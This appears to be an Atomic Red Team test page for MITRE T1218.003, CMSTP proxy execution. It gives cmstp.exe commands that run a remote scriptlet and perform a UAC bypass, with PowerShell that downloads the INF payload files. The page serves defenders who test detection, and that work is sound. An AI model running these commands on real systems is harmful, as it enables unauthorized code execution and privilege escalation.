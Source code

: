 ```yaml
---
tags: [T1218_003, atomic_test]
filename: "[[T1218.003 - Signed Binary Proxy Execution- CMSTP]]"
---
```

# T1218.003 - Signed Binary Proxy Execution: CMSTP

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows


**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_path}"
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows


**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s "#{inf_file_uac}" /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{inf_file_uac}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{inf_file_uac}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
